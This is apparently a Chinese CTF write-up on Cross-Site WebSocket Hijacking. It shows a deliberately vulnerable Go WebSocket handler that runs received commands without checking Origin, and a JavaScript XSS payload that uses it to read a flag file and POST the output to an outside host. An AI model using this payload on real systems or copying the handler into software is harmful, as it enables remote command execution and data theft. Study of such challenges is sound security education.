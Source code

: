 # Cross Site WebSocket Hijacking(CSWSH)

参考ipython notebook的[CVE-2014-3429](http://lambdaops.com/cross-origin-websocket-hijacking-of-ipython/)，未验证origin导致存在跨站websocket劫持。

## 描述

“grollia的websocket真好用，一句话 `conn, _ := websocket.Upgrade(ctx.Resp, ctx.Req, ctx.Resp.Header(), 1024, 1024)`就建好了，我也可以搭个IGo NoteBook啦！” —— 刚学Golang的小明

```go
type msg struct {
    Cmd string `json:"cmd"`
}

func main() {
    app := sweetygo.New("./", nil)
    app.GET("/ws", ws)
    app.RunServer(":8002")
}

func ws(ctx *sweetygo.Context) {
    conn, _ := websocket.Upgrade(ctx.Resp, ctx.Req, ctx.Resp.Header(), 1024, 1024)
    for {
        m := msg{}
        err := conn.ReadJSON(&m)
        if err != nil {
            fmt.Println("Error reading json.", err)
            break
        }

        res := exec(m.Cmd)
        fmt.Println(res)
        if err = conn.WriteJSON(res); err != nil {
            fmt.Println(err)
            break
        }
    }
}
```

## 分析

博客（跳板机）监听0.0.0.0:8001，存在存储型xss；

IGo NoteBook（本来Go的在线执行叫Go Playground，叫这个名很明显提示去联想IPython Notebook）监听127.0.0.1:8002，WebSocket命令执行，无Origin验证(http://www.gorillatoolkit.org/pkg/websocket)；

![](./check-origin.png)

bot在本机上故可以访问到IGo NoteBook(运行bot需要headless-chrome或者你直接改cookie自己登录)。

## 步骤

1. xss跳板机（小明的博客）

2. 跨站劫持websocket（有选手读到了所有人的Payload，是我的锅，js放的太松了）

3. 执行命令读flag

## Payload

```javascript
<script>
var socket = new WebSocket("ws://127.0.0.1:8002/ws"); socket.onopen = function(e) {socket.send(JSON.stringify({cmd:"cat flaaaaag.txt"}))};socket.onmessage = function (e) {$.ajax({type: "POST",url: "//amyang.xyz:8003", data: JSON.parse(e.data), dataType: "JSON",});};
</script>
```

![](./wp.png)

## 部署

安装mysql，改server.go数据库配置然后`go run server.go`就ok了